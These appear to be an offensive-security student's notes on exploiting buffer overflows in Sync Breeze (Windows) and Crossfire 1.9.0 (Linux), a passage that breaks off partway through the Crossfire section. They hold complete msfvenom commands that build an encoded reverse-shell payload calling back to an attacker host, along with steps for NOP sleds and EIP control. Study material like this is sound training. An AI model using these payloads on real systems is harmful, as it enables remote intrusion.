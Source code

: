 		This command gives us a shellcode that contains bad chars. We need then to encode the shellcode and instruct msfvenom not to use any of the bad chars
		msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f c -e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d" 
	Getting a shell:
		We add the generated shellcode to our username buffer in the python fuzzer after the filler, EIP and offset
		However, because the shellcode is encoded, it is not directly executable and is pre-pended by a decoder stub
		The job of the stub is to iterate over the encoded shellcode bytes and decode them back to their original executable format
		In order to perform this task the decoder needs to gather its address in    memory and from there look at few bytes ahead to locate the encoded shellcode that it needs to decode
		As part of the process of gathering the decoder stub location in memory, the code performs a sequence of assemby instructions, which are commonly referred to as a GetPC routine. This is a short routine that moves the value of the EIP register (sometimes referred to as the Program Counter, or PC) into another register. As with other GetPC routines, those used by shikata_ga_nai have an unfortunate side effect of writing some data at and around the top of the Stack. This eventually mangles at least a couple of bytes close to the address pointed to by the ESP register, which leads to an access violation caused by the decoder (the GetPC routine corrupts the decoder, which fails to decode the shellcode and the shellcode triggers the access violation)
		To prevent this problem to occur, we can create a wide landing pad to our JMP ESP, such that when execution lands anywhere on this pad, it will continue on to our payload. We simply precede our payload with a series of "no operation" or nop instructions ("\x90"), which do nothing else than pass execution to the next instruction. These instructions are known as "nop sled" or "nop slide"
		We add 10 nops immediately before our shellcode in the python fuzzer (the username buffer will then be as follows: buffer = filler + eip + offset + nops + shellcode)  
		Now the exploit is working as expected and a reverse shell is sent to the attacker machine on port 443
		However the exploit crashes Sync Breeze once the attacker closes the reverse shell. We can try to avoid the crash using the ExitThread api, instead of the ExitProcess api used by the metasploit reverse shell. This will alow us to run the exploit without interrupting the norml operations of the Sync Breeze server
		To instruct msfvenom to use the ExitThread function instead of the ExitProcess, we can use the following syntax: msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 EXITFUNC=thread -f c -e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d" 
		Let"s replace the shellcode and verify that exiting the reverse shell will not crash Sync Breeze. BINGO!

##### Linux buffer overflows
Crossfire 1.9.0 is vullnerable to a network-based buffer overflow when passing a string of more than 2000 bytes to the setup sound command. 
We will study this buffer overflow with evans debugger to debug Crossfire
Memory protection mechanisms on Linux kernels and compilers:
	DEP: Data Execution Prevention
	ASLR: Address Space Layout Randomization
	Canaries: Stack Canaries
Since the bypass of these protection mechanisms is beyond the scope of studying this buffer overflow, the Crossfire executable we will work on has not been compiled with these mechanisms enabled
Replicating the crash: 
	We create the proof of concept python exploit code from information publicly available on the Internet
	A buffer of 4379 byte is proven to crash the application
Controlling the EIP:
msf-pattern_create -l 4379
	We update the python poc and run it again against Crossfire and we find with edb that the EIP has been overwritten with the following bytes: 46367046
	With msf-pattern_offset -q 46367046 we find that those byte are at offse 4368 of the buffer. We update then again the python poc and we verify our control of the EIP
Locating space for our shellcode:
	The ESP points to the end of our buffer, but it only gives us 7 bytes for our shellcode, which is not enough
	Also, we cannot incrase the size of the buffer since, if we do it, we see that Crossfire starts crashing in an unpredictable way, not good for us
